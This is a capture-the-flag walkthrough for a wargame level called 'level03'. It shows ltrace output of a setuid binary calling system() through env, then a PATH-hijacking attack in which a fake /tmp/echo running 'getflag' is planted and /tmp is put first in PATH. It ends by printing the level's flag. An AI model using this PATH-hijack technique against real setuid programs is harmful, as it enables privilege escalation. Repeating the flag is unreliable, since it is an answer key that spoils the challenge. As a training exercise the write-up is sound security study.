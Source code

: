 1. We are given `level03` executable. Attempt to launch it results to oupupt: "Exploit me". Seems like this binary has some vulnerability inside
2. Check system calls during execution
```
$ ltrace ./level03
__libc_start_main(0x80484a4, 1, 0xbffff6e4, 0x8048510, 0x8048580 <unfinished ...>
getegid()                                                = 2003
geteuid()                                                = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)      = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)      = 0
system("/usr/bin/env echo Exploit me"Exploit me
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                   = 0
+++ exited (status 0) +++
```
3. Here it's possible to exploit `echo` command, replacing it with our fake `echo`
4. Create file `/tmp/echo` that will contain `getflag`, give full rights
``` Bash
echo getflag > /tmp/echo
chmod 777 /tmp/echo
```
5. Add to environmental variable PATH our path to fake `echo`
``` Bash
export PATH=/tmp:$PATH
```
6. Execution of binary results flag output for level04: **qi0maab88jeaj46qoumi7maus**
